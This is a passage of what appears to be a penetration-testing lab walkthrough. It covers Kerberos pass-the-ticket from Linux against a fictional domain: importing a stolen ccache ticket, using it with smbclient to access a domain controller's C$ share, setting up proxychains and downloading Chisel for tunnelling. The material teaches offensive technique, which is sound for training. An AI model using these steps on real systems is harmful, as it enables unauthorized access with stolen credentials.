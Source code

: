#### Identifying Group ZMembership with the id Command
```Shell
id julio@inlanefreight.htb
```

#### Importing the ccache File into our Current Session
```Shell
klist
```

```Shell
cp /tmp/krb5cc_647401106_I8I133 .
```

```Shell
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

```Shell
klist
```

```Shell
smbclient //dc01/C$ -k -c ls -no-pass
```
*Note: klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.*

### Using Linux Attack Tools with Kerberos

#### Host File Modified
```Shell
cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

#### Proxychains Configuration File
```Shell
cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to the Attack Host
```Shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```

```Shell
gzip -d chisel_1.7.7_linux_amd64.gz
```
